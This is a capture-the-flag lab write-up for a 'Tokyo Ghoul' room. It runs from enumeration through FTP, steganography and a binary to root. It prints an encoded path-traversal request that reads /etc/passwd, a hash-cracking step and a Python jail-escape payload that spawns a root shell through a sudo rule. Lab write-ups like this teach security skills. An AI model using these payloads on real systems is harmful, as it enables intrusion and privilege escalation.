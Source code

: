 ## Tokyo Ghoul

# Enumeration
```
# Nmap 7.91 scan initiated Mon Mar 15 15:25:26 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,21,80 10.10.144.68
Nmap scan report for 10.10.144.68
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-03-15 15:25:27 PDT for 13s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeIXT46ZiVmp8Es0cKk8YkMs3kwCdmC2Ve/0A0F7aKUIOlbyLc9FkbTEGSrE69obV3u6VywjxZX6VWQoJRHLooPmZCHkYGjW+y5kfEoyeu7pqZr7oA8xgSRf+gsEETWqPnSwjTznFaZ0T1X0KfIgCidrr9pWC0c2AxC1zxNPz9p13NJH5n4RUSYCMOm2xSIwUr6ySL3v/jijwEKIMnwJHbEOmxhGrzaAXgAJeGkXUA0fU1mTVLlSwOClKOBTTo+FGcJdrFf65XenUVLaqaQGytKxR2qiCkr7bbTaWV0F8jPtVD4zOXLy2rGoozMU7jAukQu6uaDxpE7BiybhV3Ac1x
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5o77nOh7/3HUQAxhtNqHX7LGDtYoVZ0au6UJzFVsAEJ644PyU2/pALbapZwFEQI3AUZ5JxjylwKzf1m+G5OJM=
|   256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJwYjN/qiwrS4es9m/LgWitFMA0f6AJMTi8aHkYj7vE
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 15:25:40 2021 -- 1 IP address (1 host up) scanned in 13.58 seconds
```
Looks like a ftp server that allows anonymous login, so lets check this out while we start enumerating the http server on port 80

# FTP
Going through all the directories here we find 3 files

Aogiri_tree.txt
```
Why are you so late?? i've been waiting for too long .
So i heard you need help to defeat Jason , so i'll help you to do it and i know you are wondering how i will.
I knew Rize San more than anyone and she is a part of you, right?
That mean you got her kagune , so you should activate her Kagune and to do that you should get all control to your body , i'll help you to know Rise san more and get her kagune , and don't forget you are now a part of the Aogiri tree .
Bye Kaneki.
```

need_to_talk
a binary, we can call use strings to find the following amidst some interesting function names
```
kamishiro
Hey Kaneki finnaly you want to talk
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?
Good job. I believe this is what you came for:
Hmm. I don't think this is what I was looking for.
Take a look inside of me. rabin2 -z
```
We can quickly load this into ghidra and find the password that allows us to get the flag from here

rize_and_kaneki.jpg
We can use the flag we just got from the binary to extract stegnography data from this jpg. 
steghide extract -sf rize_and_kaneki.jpg
Enter passphrase:
wrote extracted data to "yougotme.txt".
```
haha you are so smart kaneki but can you talk my code

..... .-
....- ....-
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


if you can talk it allright you got my secret directory
```
We can use cyberchef to turn this from morse code -> hex -> base64 and get the secret directory.

# HTTP Server
Our enumeration hasn't come back with much but we got a secret directory above so lets check it out. We follow the link on the frontpage and on jasonroom.html we can find a hint in the source code comments that leads us to the ftp server we have already gotten information from, so lets go to the secret directory.
```
Scan me scan me scan all my ideas aaaaahhhhhhhh 
```
We go ahead and fire up gobuster to look for directories and eventually find a directory, claim
We can click the yes or no link at the top to get the following url
http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=flower.gif

http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=../../../etc/passwd
```
 no no no silly don't do that
```
Hmm so maybe we need to use url encoding

http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=..%2F..%2F..%2Fetc%2Fpasswd
same thing so guess the periods are filtered as well
http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:<redacted password hash>:1001:1001:,,,:/home/kamishiro:/bin/bash
```
We can quickly crack this password hash using john and rockyou
john --wordlist=/usr/share/wordlists/rockyou.txt kamishiroPass
john --show kamishiroPass 

We can then use these credentials to login over ssh

# Privilege Escalation
We find the user flag in the current/home directory and a jail.py file
```
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro:
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

seems like we can run this python file as root so lets check it out to see if we can exploit it
```
kamishiro@vagrant:~$ cat jail.py
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

Looks like the file lets us execute some commands but not the filtered ones that would give us 
root escalation or read access however we find the following article, https://anee.me/escaping-python-jails-849c65cf306e. This details how we can bypass this jail and use python builtins to still be able to access these forbidden functions so we craft the following payload
```
__builtins__.__dict__['__IMPORT__'.lower()]('PTY'.lower()).__dict__['SPAWN'.lower()]('/bin/bash')
```
Running the jail.py file with sudo now gives us a root shell and we find the flag in /root
